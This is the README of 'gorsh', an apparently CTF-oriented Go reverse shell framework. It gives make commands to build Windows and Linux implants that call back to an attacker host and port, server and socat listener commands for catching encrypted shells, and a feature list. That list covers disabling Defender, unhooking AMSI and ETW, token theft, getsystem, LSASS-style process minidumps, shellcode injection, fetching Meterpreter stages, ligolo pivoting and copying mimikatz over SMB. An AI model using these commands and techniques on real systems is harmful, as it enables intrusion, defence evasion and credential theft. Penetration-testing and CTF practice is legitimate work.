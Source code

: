 # gorsh

[go]lang [r]everse [sh]ell

[![forthebadge](https://forthebadge.com/images/badges/fuck-it-ship-it.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/made-with-go.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/no-ragrets.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/contains-technical-debt.svg)](https://forthebadge.com)
[![forthebadge](https://forthebadge.com/images/badges/made-with-crayons.svg)](https://forthebadge.com)

![](https://i.imgur.com/x51XH6K.png)
[![asciicast](https://asciinema.org/a/NmeC42TNu8BgdjMLcyVUXo74x.svg)](https://asciinema.org/a/NmeC42TNu8BgdjMLcyVUXo74x)



## Usage

Generate agents with:

```bash
# To `make` targets, set the `LHOST`and`LPORT`global variables.
$ make windows LHOST=192.168.X.X LPORT=1234
or
$ make linux LHOST=192.168.X.X LPORT=1234
```

Generate & run the server with:

```bash
# To `make` a server with empty default values for listening parameters - allow the server parameters to be changed on the fly if needed
$ make server

#To run the server and set the interface on which to listen (--port is optional and set to 13000 by default)
$ ./server --interface eth0 --port 1234

#To run the server and set an IP address on which to listen (--port is optional and set to 13000 by default)
$ ./server --host 192.168.X.X --port 1234
```

or

```bash
# To `make` a server with static values for listening parameters - will not be changed on the fly even if ./server is run with --interface/--host/--port flags
$ make server INTERFACE=eth0 LPORT=1234
or
$ make server LHOST=192.168.X.X LPORT=1234

#To run the server
$ ./server
```

### Catching the shell

```bash
make listen LPORT=443
```

Tmux is powerful terminal multiplexer with robust session/windows/pane management. 
It works better at managing multiple reverse shells than most shell managers I've seen.
The server binary creates a tmux session per host and a window per each reverse shell binary invocation.
If you run the `spawn` command on a shell, a new window will open in the host's session, creating a "tab".

To catch a shell without `gorsh-server` and/or tmux, use:

```bash
socat -d -d OPENSSL-LISTEN:443,reuseaddr,cert=certs/server.pem,verify=0,fork READLINE
```

## Features

- Network scanner
- Ligolo-ng tunnels for socks-less pivoting
- Tab completion (dependent on exec method)
- Duplicate your shells with 'spawn'

### Windows
- Disable Defender (or any process) by demoting process tokens to untrusted.
- Execute Assembly - assemblies are gzipped & embedded. No hosting necessary
- Unhook modules (w/ builtins for AMSI and ETW)
- steal_token / revtoself
- getsystem - if admin
- minidump any process (uses comsvcs.dll)
- shellcode injection
- can fetch and inject meterpreter tcp and http stages
    - or any other shellcode that follows the metasploit staging protocol
    - first 4 bytes indicating the size of the following payload
        - `[size][payload]`

#### Not Windows
- `setuid`, useful for UID spoofing to bypass NFS "ACLs"
- Enumeration scripts
    - linpeas
    - linenum

### Execute Assembly

Assemblies are gzipped and embedded within the implant. Since this is a CTF
shell, I'm optimizing for ease of use and not tradecraft.

- `make list-assemblies` will show available assemblies from Flangvik's SharpCollection project.
- `make choose-assemblies` will bring up fzf, where you can filter and choose
what assemblies you want embedded. They will be embedded at the next build
time.
- to embed any other assemblies not in SharpCollection. gzip it and copy it to `./pkg/execute_assembly/embed/`

### Ligolo-NG Tunnels

Agents have the ligolo client embedded. Run `make start-ligolo` to prepare
interfaces and run ligolo-ng. From an agent, run `pivot` and a callback should
land within the ligolo interface. Select the callback in ligolo and `start`
routing. On your box, create a route to the remote network through the `tun`
interface and all traffic to that destination will now egress through ligolo.

```bash
ip route add 172.16.43.0/24 dev ligolo`
```

### File upload/download

Since this is a reverse shell, only sharing its stdin/out/err through a network socket, 
traditional methods of uploading and downloading file aren't available. There's
a docker smb server to bridge that gap. Configure the directories to be shared
in the `Makefile`, then run `make start-smb`. If you wish to see logs so you
can monitor callbacks, use `make smblogs`. Windows implants understand UNC
paths, so something like `cp //myip/tools/mimikatz.exe .` is possible.
